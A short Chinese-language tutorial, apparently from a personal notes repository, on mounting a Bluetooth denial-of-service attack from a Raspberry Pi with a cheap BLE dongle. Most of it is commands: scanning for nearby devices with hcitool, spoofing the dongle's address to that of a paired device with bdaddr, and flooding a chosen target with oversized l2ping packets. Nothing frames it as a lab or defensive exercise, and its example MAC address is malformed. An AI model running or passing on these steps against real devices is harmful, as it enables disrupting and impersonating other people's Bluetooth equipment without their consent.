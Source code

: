 ﻿# raspberry BLE dos攻击
1. 买个20块钱的ble dongle插上，像这样：</br>
    ![](8.png)
    
2. 查看本机信息：
    ```
    lsusb   # 查看加载的驱动
    ```
    ![](9.png)
    ```
    lsmod | grep bt  # 查看模块
    hciconfig   # 查看蓝牙设备信息
    ```
    ![](10.png)
    ```
    # 启动自己的ble dongle
    hciconfig hci0 up  # 启动蓝牙设备
    hciconfig hci0 off # 关闭蓝牙设备
    ```
    扫描蓝牙信息
    ```
    hcitool scan    # 进行扫描
    hcitool lescan   # 低功率蓝牙扫描
    ```
    找到目标了，我们先伪造一下自己的蓝牙地址
    ```
    bdaddr -i hci0 00:23:a2:8s # 伪造已匹配的mac地址
    bccmd warmreset
    ```
    判断一下目标是否UP或者NOT，
    ```
    sudo l2ping MAC
    ```
    ![](11.png)
    
    这样我们就可以dos一下了
    ```
    l2ping -i hci0 -s 10000 蓝牙mac地址
    ```